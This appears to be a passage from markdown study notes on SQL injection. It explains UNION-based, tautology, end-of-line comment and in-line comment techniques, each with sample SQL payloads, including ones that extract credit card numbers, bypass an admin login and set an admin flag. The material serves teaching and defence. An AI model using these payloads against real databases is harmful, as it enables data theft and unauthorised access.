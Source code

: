 The type of errore message received will tell the attacker if the db is vulnerable to a UNION SQL injection

```sql
-- original query
SELECT name, phone, address
FROM Users
WHERE Id=$id

-- if you set the Id value as:
$id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable

-- the final query is:
SELECT name, phone, address
FROM Users
WHERE Id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable
```

#### tautology

An attacker uses a conditional OR clause such that the condition of the WHERE clause will always be true

```sql
SELECT *
FROM users
WHERE name = '' OR '1'='1';
```

This query will always be true, as the second part of OR clause is always true

#### end of line comment

An attacker uses line comments in specific injection inputs.
The db will execute the code until it reaches the commented portion, after which it will ignore the rest of the query.

```sql
-- you can login to an admin account without the password
SELECT *
FROM members
WHERE username = 'admin'--' AND password = 'password'
```

#### in-line comments

This type of injections allows an attacker to bypass blacklisting, remove spaces, obfuscate, and determine database versions.

```sql
INSERT INTO Users (UserName, isAdmin, Password)
VALUES ('".$username."', 0, '".$password."')"
```

The attacker may provide malicious inputs as follows

UserName = Attacker', 1 /*
Password = */'mypwd
